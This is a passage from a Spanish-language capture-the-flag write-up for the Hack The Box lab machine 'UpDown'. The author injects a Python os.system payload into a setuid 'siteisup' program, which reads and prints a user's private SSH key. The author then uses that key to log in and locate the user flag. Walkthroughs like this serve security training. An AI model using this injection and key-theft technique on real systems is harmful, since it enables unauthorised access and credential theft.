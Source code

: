 ```console
www-data@updown:/home/developer/dev$ echo '__import__("os").system("cat /home/developer/.ssh/id_rsa")' | ./siteisup 2>/dev/null
Welcome to 'siteisup.htb' application

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05EEcJw/
S1qi9PFoNvzkt7Uy3++6xDd95ugAdtuRL7qzA03xSNkqnt2HgjKAPOr6ctIvMDph8JeBF2
F9Sy4XrtfCP76+WpzmxT7utvGD0N1AY3+EGRpOb7q59X0pcPRnIUnxu2sN+vIXjfGvqiAY
ozOB5DeX8rb2bkii6S3Q1tM1VUDoW7cCRbnBMglm2FXEJU9lEv9Py2D4BavFvoUqtT8aCo
srrKvTpAQkPrvfioShtIpo95Gfyx6Bj2MKJ6QuhiJK+O2zYm0z2ujjCXuM3V4Jb0I1Ud+q
a+QtxTsNQVpcIuct06xTfVXeEtPThaLI5KkXElx+TgwR0633jwRpfx1eVgLCxxYk5CapHu
...
```

Ahora solo extraemos la llave privada del usuario `developer`, nos conectamos por `ssh` y conseguimos la flag:

```console
www-data@updown:/tmp$ echo '__import__("os").system("cat /home/developer/.ssh/id_rsa")' | /home/developer/dev/siteisup 2>/dev/null | sed '39d' > id_rsa_developer
www-data@updown:/tmp$ chmod 600 id_rsa_developer 
www-data@updown:/tmp$ ssh -i id_rsa_developer developer@localhost -q
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:npwXkHj+pLo3LaYR66HNCKEpU/vUoTG03FL41SMlIh0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Oct 25 01:01:48 UTC 2022

  System load:  0.0               Processes:             243
  Usage of /:   49.9% of 2.84GB   Users logged in:       0
  Memory usage: 26%               IPv4 address for eth0: 10.10.11.177
  Swap usage:   0%


8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Oct 25 00:59:31 2022 from 127.0.0.1
developer@updown:~$ find / -name user.txt -exec ls -l {} + 2>/dev/null
-rw-r----- 1 root developer 33 Oct 24 16:54 /home/developer/user.txt
```
